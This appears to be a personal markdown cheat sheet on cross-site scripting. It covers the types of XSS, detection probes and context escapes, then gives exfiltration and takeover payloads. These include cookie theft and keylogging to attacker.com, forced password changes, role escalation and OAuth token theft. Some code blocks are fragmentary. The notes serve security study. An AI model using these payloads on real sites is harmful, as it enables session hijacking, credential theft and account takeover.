

#Web/XSS

# What

[_Cross-Site Scripting_](https://owasp.org/www-community/attacks/xss/) (XSS) is a vulnerability that exploits a user's trust in a website by dynamically injecting content into the page rendered by the user's browser.

# Types

Two major classes:

- **Stored**
	- _Stored XSS attacks_, also known as _Persistent XSS_, occur when the exploit payload is stored in a database or otherwise cached by a server.
	- The web application then retrieves this payload and displays it to anyone who visits a vulnerable page. 
	- A single Stored XSS vulnerability can attack all site users. 
	- Stored XSS vulnerabilities often exist in forum software, especially in comment sections, in product reviews, or wherever user content can be stored and reviewed later.
- **Reflected**
	- Reflected XSS attacks usually include the payload in a crafted request or link. 
	- The web application takes this value and places it into the page content. 
	- This XSS variant only attacks the person submitting the request or visiting the link.
	- Reflected XSS vulnerabilities can often occur in search fields and results, as well as anywhere user input is included in error messages.

Either of these two vulnerability variants can manifest as client- (browser) or server-side; they can also be _DOM-based_.

# Identifying XSS Vulnerabilities

## Detection Methodology:

  - Input Vector Mapping:
     * URL parameters (?search=test)
     * Form fields (comments, profile fields)
     * HTTP headers (User-Agent, Referer)
     * DOM sinks (document.write, innerHTML)

   - Probe Payloads:
     * Basic: `<script>alert(1)</script>`
     * SVG: `<svg onload=alert(1)>`
     * MathML: `<math><maction actiontype="statusline#alert(1)">`

## Context Analysis:

- HTML Context:
     `<div>USER_INPUT</div> → </div><script>alert(1)</script>
   
- Attribute Context:
     `<input value="USER_INPUT"> → " onmouseover="alert(1)`
   
- JavaScript Context:
     `<script>var name = 'USER_INPUT';</script> → ';alert(1);//`

## Tools:

   - Manual Testing: Browser DevTools (Elements/Console tabs)
   - Automated: 
     * Burp Scanner
     * OWASP ZAP: `zap-cli --quick-scan -s xss`
     * XSStrike: `python3 xsstrike.py -u "https://site.com/search?q=test"`
     * Caido

# BASIC XSS EXPLOITATION

## Reflected XSS:

### URL Based

```bash
https://vuln-site.com/search?q=<script>alert(document.domain)</script>
```

Where the exploit is encoded to get past filtering

```url
%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E
```

## Stored XSS in Web Pages

### Profile Field:

```html
## Stored as an image


## Stored in an iframe
<iframe src="javascript:alert(`Stored XSS`)">
```

## DOM Sinks

JavaScript functions/properties that unsafely handle user input.

```html
## Unsafe/Unsanitized script
<script>
     let param = new URLSearchParams(location.search).get('input');
     document.write(param); // Vulnerable sink
 </script>
```

```bash
## Delivery system for payload which is in the input url parameter
https://site.com#input=

## The script above reads that, and writes this into the DOM without any sanitization
```

## Advanced Payloads

```html
## Session Hijacking:
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
   
## Keylogger:
<input onfocus=
document.addEventListener('keypress',e=>fetch('https://attacker.com/log?k='+e.key))>
</input>
```

# PRIVILEGE ESCALATION VIA XSS

## Admin Interface Targeting:

```html
## CSRF Token Theft:
<script>
fetch('/admin').then(r=>r.text()).then(d=>fetch('https://attacker.com/exfil?page='+encodeURIComponent(d)))
</script>
```

## Account Takeover Chains:

```html
##Password Change Exploit:
<script>
     fetch('/account/change-password', {
       method: 'POST',
       body: 'new_password=hacked&confirm=hacked'
     })
</script>
```

# API Abuse:

```html
# Role Modification:
     <script>
     fetch('/api/users/current', {
       method: 'PATCH',
       headers: {'Content-Type':'application/json'},
       body: JSON.stringify({role:"admin"})
     })
     </script>
``` 

# Real-World Example:

```html
#Stealing OAuth Tokens:
  {
         const token = iframe.contentWindow.document
           .querySelector('meta[name=token]').content;
         fetch('https://attacker.com/steal?token='+token);
       };
       document.body.appendChild(iframe);">
```

# Flowchart

